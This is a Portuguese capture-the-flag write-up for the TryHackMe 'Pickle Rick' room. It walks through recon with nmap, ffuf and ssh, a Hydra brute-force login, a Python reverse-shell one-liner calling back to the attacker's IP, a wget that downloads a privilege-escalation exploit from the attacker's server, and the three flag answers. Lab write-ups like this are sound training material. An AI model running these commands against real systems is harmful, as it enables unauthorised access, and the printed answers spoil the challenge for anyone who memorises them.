 # Sala picklerick do TryHackMe

Essa sala Pickle Rick do TryHackMe tem como objetivo fazer com que o pentester pense fora da caixa e que consiga bypassar algumas situações 


# Description

This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

Deploy the virtual machine on this task and explore the web application: MACHINE_IP

You can also access the web app using the following link: https://LAB_WEB_URL.p.thmlabs.com (this will update when the machine has fully started)

# Requisitos para invasão
- [x] BurpSuite



# Tela inicial do Lab

Aqui encontramos o problema, que o rick perdeu sua senha. Então provavelmente teremos que acessar uma tela de login.
![vuln2.jpg](img/telainicial.jpeg)

Vamos observar o código fonte da página 

#### HTML code
```html

<!DOCTYPE html>
<html lang="en">
<head>
  <title>Rick is sup4r cool</title>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <link rel="stylesheet" href="assets/bootstrap.min.css">
  <script src="assets/jquery.min.js"></script>
  <script src="assets/bootstrap.min.js"></script>
  <style>
  .jumbotron {
    background-image: url("assets/rickandmorty.jpeg");
    background-size: cover;
    height: 340px;
  }
  </style>
</head>
<body>

  <div class="container">
    <div class="jumbotron"></div>
    <h1>Help Morty!</h1></br>
    <p>Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!</p></br>
    <p>I need you to <b>*BURRRP*</b>....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is,
    I have no idea what the <b>*BURRRRRRRRP*</b>, password was! Help Morty, Help!</p></br>
  </div>

  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->

</body>
</html>

```

Análisando o códifo fonte, encontramos o usuário do Rick que é o R1ckRul3s

```html
 <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```



Nesse periodo em paralelo, realizei um scan para buscar por novas informações do alvo

```
nmap 10.10.195.34
```

![vuln2.jpg](img/scan.jpeg)

E também tentei me conectar via SSH
```
ssh -v R1ckRul3s@10.10.195.34
```


![vuln2.jpg](img/ssh_falha.jpeg)


E uma enumeração de diretorios através do ffuf


```

ffuf -c -w /usr/share/dirb/wordlists/common.txt -u http://10.10.195.34/FUZZ -e '.php','.html','.csv','.xls','.xlsx'

```
Encontramos uma página chamada login.php e um robots.txt
![vuln2.jpg](img/ffuf.png)


Entrando aqui na tela de login, deixei um bruteforce rodando  em paraleo

## Tela de login
![vuln2.jpg](img/login.png)


## Hydra
![vuln2.jpg](img/hydra.jpeg)
```
hydra -l R1ckRul3s -P /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt   10.10.195.34 http-post-form "/login.php:username=^USER^&password=^PASS^&sub=Login:Invalid username or password."
```


Depois de esperar um bom tempo de bruteforce, decidir entrar no robots.txt e esse conteúdo do robots.txt era  meio estranho

```
Wubbalubbadubdub
```

Tentando logar com o usuário
R1ckRul3s e senha Wubbalubbadubdub. Consigo logar no sistema.
![vuln2.jpg](img/logado.png)

Tentando um ls -la no command panel achamos o primeiro ingrediente

![vuln2.jpg](img/primeiro_ingrediente.png)

Respota aqui 
![vuln2.jpg](img/resposta.png)

```
mr. meeseek hair
```

Precisamos pegar uma shell melhorada para avançar para os próximos ingredientes, então executei o comando


![vuln2.jpg](img/pegar_shell.png)

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.0.28",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

Shell
![vuln2.jpg](img/shell.png)




Trocando de diretorios encontramos o segundo ingrediente
![vuln2.jpg](img/segundo_ingrediente.png)
```
1 jerry tear
```

Subindo shell para escalar privilegio
![vuln2.jpg](img/subindo_exploit_privilege_escalation.png)

Computador do atacante
```
python -m http.server
```

Computador do alvo
```
wget http://10.9.0.28:8000/CVE-202104034.PY
```

E agora, só rodar o exploit e escalar privilegio


![vuln2.jpg](img/root.png)

Com acesso root e procurando o terceiro ingrediente achamos na pasta do root

![vuln2.jpg](img/terceiro.png)

```
fleeb juice
```

Máquina completa :D
